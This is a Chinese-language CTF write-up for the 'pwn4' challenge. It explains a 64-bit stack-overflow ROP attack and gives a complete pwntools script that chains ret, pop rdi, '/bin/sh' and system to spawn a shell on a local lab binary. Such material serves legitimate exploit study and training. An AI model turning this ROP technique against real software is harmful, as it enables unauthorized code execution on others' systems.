 ### 题目：pwn4

### 考点：

- 64位ROP攻击
- 栈溢出攻击

### 解题思路：

- 首先使用`checksec`工具查看`pwn4`状态![checksec](/img/posts/2023-10-23-pwn4/images/checksec.png)

- 由图可知`pwn4`为64位程序，且开启了DEP机制，因此可以使用ROP攻击，只不过由于64位程序函数前6个参数会存储在寄存器rdi，rsi，rdx，rcx，r8，r9中，因此需要使用`ROPgadget`工具寻找可用片段将参数传入寄存器rdi中。

- 使用`ida64`工具打开，获取到重要地址`stack_flow`, `system`, `"/bin/sh"`的地址，使用`ROPgadget`工具获取到`pop rdi, ret`片段的地址：


| 函数或字符串 | 地址      |
| ------------ | --------- |
| stack_flow   | 0x040061B |
| system       | 0x0400480 |
| "/bin/sh"    | 0x04006FF |
| pop rdi, ret | 0x0400693 |

- 使用`pwndbg`来动态调试，在`stack_flow`函数下断点，可见传入`read`函数的参数为`0x20`个字节，要覆盖到寄存器`rbp`，需要`0x20+8`个输入；

- 构造python脚本，需要构造payload向pwn4传入(0x20+8)字符覆盖到函数返回地址，然后加入system函数地址，并传入参数。

  ```python
  from pwn import *
  
  context(arch="amd64", log_level="debug")
  p = process('./pwn4')
  
  stack_flow = 0x40061B
  system = 0x400480
  bin_sh = 0x4006FF
  pop_rdi = 0x400693
  ret = 0x4005F3
  
  b = '04005F2'
  
  p.recvuntil("Give me your payload")
  payload = flat(b'b'*(0x20 + 8), ret, pop_rdi, bin_sh, system)
  gdb.attach(p, f'b *0x{b}')
  p.send(payload)
  p.interactive()
  ```

  注：如果不加`ret`，`pop rdi`栈地址为`0x47e4b8`末尾不为0，因此无法正确执行，所以需要加入ret，使后面命令对齐。

![stack-1](/img/posts/2023-10-23-pwn4/images/stack-1.png)

​		加入`ret`后栈的情况。

![stack](/img/posts/2023-10-23-pwn4/images/stack.png)

- 结果成功利用栈溢出获取到shell：

![result](/img/posts/2023-10-23-pwn4/images/result.png)

